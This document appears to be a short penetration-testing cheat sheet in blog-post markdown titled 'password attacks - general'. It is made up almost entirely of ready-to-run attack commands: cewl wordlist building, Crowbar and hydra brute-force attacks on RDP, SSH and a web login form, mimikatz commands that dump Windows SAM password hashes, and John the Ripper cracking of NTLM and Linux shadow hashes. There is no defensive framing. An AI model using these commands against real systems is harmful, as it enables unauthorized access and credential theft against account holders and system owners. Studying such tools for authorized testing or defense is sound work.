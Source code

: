 ```yaml
---
layout: post
title:  "password attacks - general"
date:   2022-01-01
categories: password
---
```


## cewl generate list

```
cewl www.example.com -m 6 -w example-cewl.txt
```

## Remote Desktop Protocol Attack with Crowbar

```
crowbar -b rdp -s 10.10.10.10/32 -u admin -C ~/passwords.txt -n 1
```

## ssh

```
hydra -l kali -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1
```

## http post

```
hydra 10.10.10.10 http-form-post "/dir/login.php:user=admin&pass=^PASS^:INVALID LOGIN" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f
```

## Retrieving Password Hashes windows mimikatz.exe

```bash
C:\mimikatz.exe
privilege::debug
token::elevate
lsadump::sam
```

## password crack

- ntlm hash

```bash
sudo john hash.txt --format=NT
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=NT
john --rules --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=NT
```
- linux shadow

```bash
unshadow passwd-file.txt shadow-file.txt
unshadow passwd-file.txt shadow-file.txt > unshadowed.txt
john --rules --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
```